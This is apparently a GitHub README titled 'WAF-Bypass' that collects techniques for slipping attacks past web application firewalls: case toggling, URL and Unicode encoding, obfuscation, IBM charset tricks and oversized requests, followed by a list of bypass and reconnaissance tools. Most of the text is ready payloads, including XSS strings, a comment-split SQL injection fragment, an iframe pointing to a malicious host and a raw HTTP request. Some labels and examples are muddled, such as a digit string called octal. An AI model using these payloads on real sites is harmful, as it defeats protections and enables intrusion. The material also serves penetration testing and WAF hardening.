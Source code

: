 <h1 align="center">
  <br>
  <a href=""><img src="/img/logo.png" alt="" width="300px;"></a>
  <br>
  <img src="https://img.shields.io/badge/PRs-welcome-blue">
  <img src="https://img.shields.io/github/last-commit/kh4sh3i/WAF-Bypass">
  <img src="https://img.shields.io/github/commit-activity/m/kh4sh3i/WAF-Bypass">
  <a href="https://twitter.com/intent/follow?screen_name=kh4sh3i_"><img src="https://img.shields.io/twitter/follow/kh4sh3i_?style=flat&logo=twitter"></a>
  <a href="https://github.com/kh4sh3i"><img src="https://img.shields.io/github/stars/kh4sh3i?style=flat&logo=github"></a>
</h1>


# WAF-Bypass
🔥 Web application firewalls (WAFs) bypass


## Bypassing WAFs

### 1.Regex Bypasses
Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at PayloadsAllTheThings and OWASP.

```
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
```


## 2.Obfuscation
While obfuscation is a possible way to bypass regex, they have been divided into different sections to showcase more exclusively a selection of obfuscation techniques.



```
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```



```
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```


## 3.Charset Encoding
This technique involves modifying the Content-Type header to use a different charset (e.g. ibm500). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python


```
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```



## 4.Unicode Compatability
Depending on the implementation of Unicode normalization, characters that share Unicode compatability may be able to bypass the WAF and execute as the intended payload.

```
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```


## 5. Content Size
In some cloud-based WAFs, the request won’t be checked if the payload exceeds a certain size. In these scenarios, it is possible to bypass the firewall by increasing the size of the request body or URL.



## 1. Case Toggling Technique
Combine upper and lower case characters for creating efficient payloads.
```
<script>confirm()</script>

Bypassed Technique:

<ScrIpT>confirm()</sCRiPt>
```

## 2. URL Encoding Technique
* Encode normal payloads with % encoding/URL encoding.
* You can use Burp. It has an encoder/decoder tool.

```
<Svg/x=">"/OnLoAD=confirm()//

Bypassed Technique:

%3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F
```

## 3. Unicode Technique
* ASCII characters in Unicode encoding give us great variants for bypassing WAF.
* Encode entire or part of the payload for obtaining results.






## Tools
* [w3af](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework
* [wafw00f](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall
* [BypassWAF](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) – Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain.
* [CloudFail](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.



